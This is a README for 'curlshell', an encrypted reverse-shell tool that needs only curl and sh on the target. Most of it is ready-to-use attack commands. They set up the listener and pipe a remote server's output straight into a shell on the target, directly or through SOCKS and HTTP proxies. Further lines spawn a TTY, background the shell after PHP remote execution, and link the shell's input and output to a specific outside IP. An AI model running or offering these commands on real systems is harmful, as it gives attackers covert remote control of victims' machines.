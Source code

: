 # Reverse shell using curl

(Cloned from [https://github.com/irsl/curlshell](https://github.com/irsl/curlshell); slightly enhanced)

An encrypted reverse TCP shell through a proxy (using only cURL).

It allows an attacker to access a remote shell (sh) when the remote system can access the Internet via a Proxy only (and no other binaries can be installed or executed). It only needs `curl` and `sh`. The target does not need to have python.


Generate a SSL Certificate (on your system; not the target):
```sh
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -sha256 -days 3650 -nodes -subj "/CN=THC"
```

## Without Proxy

```sh
# Start your listener (your system)
./curlshell.py --certificate cert.pem --private-key key.pem --listen-port 8080
```
```sh
# On the target:
curl -skfL https://1.2.3.4:8080 | sh
```

## With SOCKS Proxy
```sh
./curlshell.py -x socks5h://5.5.5.5:1080 --certificate cert.pem --private-key key.pem --listen-port 8080 
```
```sh
curl -x socks5h://5.5.5.5:1080 -skfL https://1.2.3.4:8080 | sh
```

## With HTTP Proxy
```sh
./curlshell.py -x http://5.5.5.5:3128 --certificate cert.pem --private-key key.pem --listen-port 8080 
```
```sh
curl -x http://5.5.5.5:1080 -skfL https://1.2.3.4:8080 | sh
```

## With HTTP (plaintext)
```sh
./curlshell.py --listen-port 8080
```
```sh
curl -sfL http://1.2.3.4:8080 | sh
```

# Advanced Tricks
Spawn a TTY shell
```sh
stty intr undef ;
./curlshell.py --shell 'script -qc /bin/bash /dev/null' --listen-port 8080 ; stty intr ^C
```

Start the reverse shell as a daemon / background process. This is useful when you have remote execution via PHP:
```sh
# Dont use 'sh -il' in busybox [ash: alpine, docker] which will fail with SIGTTIN.
# Instead use just 'sh'
./curlshell.py --shell sh --listen-port 8080
```

```sh
# On the target:
(curl -sfL http://1.2.3.4:8080 | sh &>/dev/null &)
```

# How it works
The first cURL request pipes this into a target's shell:
```sh
exec curl -X POST -sN http://217.138.219.220:30903/input \
    | sh 2>&1 | curl -s -T - http://217.138.219.220:30903/stdout
```

This command starts two cURL processes and connects another shell's input and output these two cURL. HTTP's 'chunked transfer' (`-T`) does the rest.

---
More at https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet.
